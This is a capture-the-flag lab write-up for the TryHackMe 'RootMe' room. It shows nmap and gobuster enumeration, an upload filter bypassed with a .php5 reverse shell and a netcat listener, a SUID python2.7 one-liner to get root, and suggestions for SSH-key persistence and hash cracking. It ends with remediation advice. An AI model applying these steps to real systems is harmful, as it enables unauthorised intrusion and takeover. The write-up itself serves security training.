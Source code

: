 # Lab Report - RootMe


# Overview 
- **Difficulty**: Easy.
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/rrootme
- **Tags**: #enumeration #shell #privesc

## Challenge Description 
> **A ctf for beginners, can you root me?**

## Resolution Summary 
> **We Started by performing active reconnaissance using Nmap on the target IP, we found an HTTP website running on port 80. Then we used Gobuster to find hidden directories, we uncovered a hidden upload web page. After testing multiple PHP extensions, we found one that is allowed and uploaded a reverse shell. Upon getting a shell, we exploited the python binary as it had its SUID bit set and it was owned by root. Finally we got root access and retrieved the flags.** 

# Information Gathering 
## Active Reconnaissance
- **We attempted to discover running services on the given IP by running an Nmap scan, we scanned for services versions as well (may reveal usable exploits).**
```bash
sudo nmap -sV 10.10.185.141
```
	- Note : Adding the -p- flag did not lead to other results.

- **We found 2 running services, an SSH (22) server and an HTTP server (80).**
```bash
#Results 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP (80)

- **Next, we focused on the HTTP server running on port 80.** 
- **First, we took a look at the Page Source. We saw that the web server was running a script to display the text on the homepage. (dead end)**

- **After that, we ran `GoBuster` to find hidden directories.** 
```bash
gobuster dir -u 10.10.185.141 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

- **We uncover the following directories:** 
```bash
/uploads              (Status: 301) [Size: 316] [--> http://10.10.185.141/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.185.141/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.185.141/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.185.141/panel/]

```

- **Upon further investigation, the /panel directory lead us to an upload web page.** 
# Exploitation 
- **Given the upload web page found, we will try to upload a reverse shell on the web server.** 
- **We used the PHP reverse shell available on Kali machines (from PentestMonkey) and set up a listener with netcat** 
```bash
nc -lnvp 1234
```

- **The server seemed to have filters. Therefore, we tried other PHP extensions.**
- **.php5 worked fine and we got a reverse shell.**

# Privilege Escalation 
- **Once we obtain a webshell, we listed files that had the SUID bit set (we may list files that are owned by root as well).**
- **We found that python2.7 does, hence we looked for an exploit on GTFOBins.**
- **Then we used:** 
```bash
python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")' 
```

- **Which allowed us to gain root access and get the flags:** 
```bash 
find -type f -name "user.txt"
cat ./user.txt

find -type f -name "root.txt"
cat ./root.txt
```
# Trophy 
> **User.txt**
> **THM{y0u_g0t_a_sh3ll}** 

> **Root.txt**
> **THM{pr1v1l3g3_3sc4l4t10n}**

# Extra Mile 
 - **Create an SSH key pair, add your public key to the authorized_keys files in ./ubuntu, gain access to the SSH server.**
 - **Crack the /etc/passwd hashes with JTR or Hashcat (then use credential on the SSH server).**

# Remediation Summary
 - **For the Upload web page:** It should have a whitelist instead of a blacklist + Ban the use of particular functions (like system()).
- **Files owned by root:** Binaries like python must not have SUID bit set.
